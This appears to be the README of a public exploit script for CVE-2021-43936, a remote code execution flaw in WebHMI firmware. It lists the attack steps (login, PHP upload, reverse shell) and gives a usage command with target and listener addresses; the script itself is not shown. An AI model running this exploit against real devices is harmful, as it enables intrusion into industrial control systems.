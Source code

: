 # CVE-2021-43936

CVE-2021-43936 is a critical vulnerability (CVSS3 10.0) leading to Remote Code Execution (RCE) in WebHMI Firmware.</br>
This vulnerability works on versions 4.0 and the newest ones.</br>
Tested only on 4.0.7475. Vulnerability is used by script in the following steps:</br>
  1. Logs into the application
  2. Uploads the PHP code execution script
  3. Sends the reverse shell payload

Exploit can fail, if there are more than one NIC attached. The solution is to try once again.

## Usage example:
`python3 cve-2021-43936.py -t 10.100.23.200 -p 80 -l 10.100.23.201 -P 80`

![Screen](img.PNG)
